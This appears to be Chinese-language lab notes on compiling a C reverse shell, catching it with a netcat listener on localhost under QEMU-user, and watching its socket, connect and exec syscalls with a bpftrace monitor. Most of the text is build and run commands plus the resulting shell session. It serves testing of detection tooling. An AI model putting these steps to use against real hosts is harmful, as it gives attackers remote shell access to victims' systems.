 现在test里面

进入仓库根目录，运行脚本把你要连接回的 IP/端口写进 `linux.c` 里：

```
cd ~/Program-test/c-reverse-shell
./change_client.sh 127.0.0.1 4444
```

这会把 `CLIENT_IP` 和 `CLIENT_PORT` 宏写到 `linux.c`。

------

## 2. 编译 Linux 版

还是在仓库根目录，直接用 Makefile：

```
make linux
```

完成后，会生成一个叫 `reverse.elf` 的可执行文件。

如果你想跳过脚本、手动编译，也可以这么写：

```
gcc -std=c99 -D_GNU_SOURCE \
    linux.c -o rsh.out \
    -DCLIENT_IP=\"127.0.0.1\" -DCLIENT_PORT=4444
```

------

## 3. 启动监听（Attacker）

在另一个终端里，先启动 netcat 监听端口：

```
nc -lvp 4444
```

------

## 4. 在 QEMU-user 下运行

回到第一个终端，运行：

```

qemu-x86_64 ./reverse.elf
```

（如果你手动编译的是 `rsh.out`，就改成 `qemu-x86_64 ./rsh.out`）

这时程序会 fork 出子进程，子进程会向 `127.0.0.1:4444` 发起 TCP 连接，并把自己的 stdin/stdout/stderr 全部重定向到这个 socket。

------

## 5. 验证反弹 Shell

在你的 nc 窗口里，你应该会看到类似：

```
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54832
$ whoami
user
$ pwd
/home/user/test/c-reverse-shell
```

如果看到，就说明反向 Shell 成功了。

------

## 6. 同时监控它的系统调用

在另一个终端再开一个 bpftrace 监控脚本（比如你的 `monitor.bt`）：

```
cd ~/test/my_qemu_monitor
sudo ./monitor.bt
```

然后再执行上面的 `qemu-x86_64 ./reverse.elf`。你会实时看到：

```
SOCKET: domain=2 type=1 pid=54832
CONNECT: pid=54832
EXEC: /bin/sh (pid=54832)
```

等等关键调用被捕获。这样就完成了在 WSL2 + QEMU-user + eBPF 环境下，对这个反向 Shell 的端到端测试。